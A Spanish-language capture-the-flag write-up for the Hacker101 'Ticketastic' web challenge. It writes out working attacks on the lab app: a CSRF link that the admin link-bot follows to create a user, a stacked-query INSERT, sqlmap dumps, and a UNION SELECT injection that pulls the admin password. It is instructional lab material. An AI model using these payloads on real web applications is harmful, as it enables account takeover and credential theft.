 # HackerOne Hacker101 CTF

## Ticketastic
### Web - Moderate (5/flag)

![](img/level08.png)

### Hints
* Flag0
	* This level and the Ticketastic demo instance are running the same code
	* Take a look at addUser on the demo instance
	* What is missing?
	* Humans might read these tickets and interact with them
	* Links in tickets could be interesting
* Flag1
	* How do others log into this instance?
	* The login form reveals more than it should
	* So does the ticket endpoint
	
	
Para este reto disponemos de una versión demo donde probar las diferentes vulnerabilidades antes de enfrentarnos a la versión "real"

Una de las pistas la encontramos en el ticket de ejemplo.
```
Example Ticket
This is your ordinary, run of the mill ticket.  If any errors occurred during processing -- for instance, if the user gives a bad link -- these will be noted here.
```

La opción de crear usuarios consta de un formulario sin protección a CSRF que además envía los datos por el método GET `/newUser?username=patatas&password=fritas&password2=fritas`.

![](img/level08-newuser.png)


Probamos a enviar un ticket con una URL, observamos como tarda mas tiempo de lo habitual en enviarse.

![](img/level08-posturl.png)

En el panel de administración aparece el siguiente mensaje.

![](img/level08-badlink.png)

Aunque este formulario también es vulnerable a XSS, al no haber un administrador que revise los posts no podemos usar esta vulnerabilidad.

El visor de tickets `/ticket?id=1` también es vulnerable a inyección SQL en el parámetro *id*. Al igual que en anteriores retos, se nos muestra parte del código fuente cuando ocurre un error.

```python
cur.execute('SELECT title, body, reply FROM tickets WHERE id=%s' % request.args['id'])
title, body, reply = cur.fetchone()
```

Utilizamos *SQLmap* para extraer los datos de la base de datos
```
Table: users
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | admin    | admin    |
+----+----------+----------+

Table: tickets
+----+--------------------------------------+---------+----------------+
| id | body                                 | reply   | title          |
+----+--------------------------------------+---------+----------------+
| 1  | This is your ordinary, run of the... | <blank> | Example Ticket |
+----+--------------------------------------+---------+----------------+
```

También podemos utilizar stacked queries en este reto para añadir un nuevo usuario en la DB.

`INSERT INTO users (id,username,password) VALUES (2, 'patatas', 'fritas');commit;`

Dado que casi todos estos fallos se encuentran en la parte autenticada, debemos utilizar el fallo del linkbot para conseguir añadir un usuario. 

Esto se consigue añadiendo el siguiente link en un post `http://127.0.0.1/newUser?username=patatas&password=fritas&password2=fritas`. Hay que tener en cuenta que estos retos se encuentran en una instancia de docker separada para cada usuario, y que aunque externamente accedemos por el puerto 5001 y un directorio, esto no es mas que un proxy inverso de *nginx*, .

Una vez dentro, tenemos la primera flag en los comentarios del primer post.

![](img/level08-post.png)

La segunda flag se encuentra en la contraseña del usuario admin. Aunque podriamos extraerla con SQLmap, tan solo necesitamos una consulta SQL.

`/ticket?id=-1 union select '',username,password from users LIMIT 1`

![](img/level08-password.png)
